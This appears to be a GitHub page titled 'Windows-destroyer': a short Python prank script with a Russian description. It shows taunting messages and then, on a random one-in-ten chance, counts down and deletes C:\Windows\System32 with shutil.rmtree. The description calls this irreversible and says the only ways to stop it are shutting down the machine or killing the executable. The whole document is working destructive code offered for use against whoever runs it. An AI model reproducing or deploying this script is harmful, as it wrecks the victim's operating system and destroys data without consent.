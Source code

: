 # Windows-destroyer


import random
import shutil
import time

if random.randint(0, 9) == 5:
    print("Эх, ну ты и везунчик, теперь проверим твою скорость в поиске этого процесса в диспетчере задач :(")
    time.sleep(5)
    print("Если что, то ты попал в вероятность 0.1, и через 10 секунд с твоего компьютера удалится папка System32")
    for i in range(10, 0, -1):
        print(i, 'секунд осталось(')
        time.sleep(2)
    print("Чао персик, дозревай")
    time.sleep(2)
    shutil.rmtree("C:\Windows\System32")
else:
    print('ХАХ, а тебе повезло, лучшe узнай у создаетля этой арограммы, что она могла сделать с твоим компом))')
    time.sleep(10)






Основа программы состоит в том, что при попадании в число 5 при рандомизации, запускается необратимый процесс удаления папки System32, но есть несколько способов остановить этот ужас и кошмар. Для этого надо либо выключить компьютер, либо перезагрузить его, либо найти этот екзешник в диспетчере устройств и выключить его.
 
